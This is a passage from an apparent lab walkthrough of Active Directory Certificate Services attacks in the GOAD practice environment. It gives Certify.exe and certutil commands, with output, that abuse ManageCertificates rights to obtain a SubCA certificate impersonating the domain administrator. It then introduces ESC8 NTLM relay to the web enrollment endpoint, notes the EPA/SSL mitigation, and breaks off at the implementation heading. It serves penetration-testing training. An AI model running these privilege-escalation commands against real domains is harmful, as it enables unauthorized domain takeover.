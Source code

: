### ManageCertificates Rights Exploitation

With ManageCertificates, approve pending requests. First, submit a request for a privileged user using SubCA template:

```bash
Certify.exe request /ca:braavos.essos.local\ESSOS-CA /template:SubCA /altname:administrator@essos.local

[*] Action: Request a Certificates
[*] Current user context    : ESSOS\viserys.targaryen
[*] Template                : SubCA
[*] Subject                 : CN=viserys.targaryen, CN=Users, DC=essos, DC=local
[*] AltName                 : administrator@essos.local

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA
[*] CA Response             : Taken Under Submission
[*] Request ID              : 14

# The request is pending, now approve it with ManageCertificates permission
certutil -config "braavos.essos.local\ESSOS-CA" -approve 14

# Expected output:
# Request 14 approved.
# CertUtil: -approve command completed successfully.

# Retrieve the issued certificate
Certify.exe request /ca:braavos.essos.local\ESSOS-CA /retrieve 14

[*] Action: Retrieve Certificates
[*] Request ID: 14
[*] Certificate retrieved successfully
```

## ESC8: NTLM Relay to AD CS HTTP Endpoints

ESC8 is where things get really interesting. It combines ADCS with NTLM relay attacks, targeting HTTP-based certificate enrollment endpoints. I love this technique because it leverages two different attack vectors together.

### Prerequisites

In GOAD, we have perfect conditions for ESC8:
- ADCS web enrollment **enabled**
- **HTTP enrollment endpoint** accessible at `http://braavos.essos.local/certsrv/`
- We can perform **NTLM relay** attacks

NTLM relay works against both HTTP and HTTPS enrollment pages; the protocol matters less than whether Extended Protection for Authentication (EPA) or channel binding tokens are required. Enable EPA and require SSL to break the relay attack.

### Attack Implementation
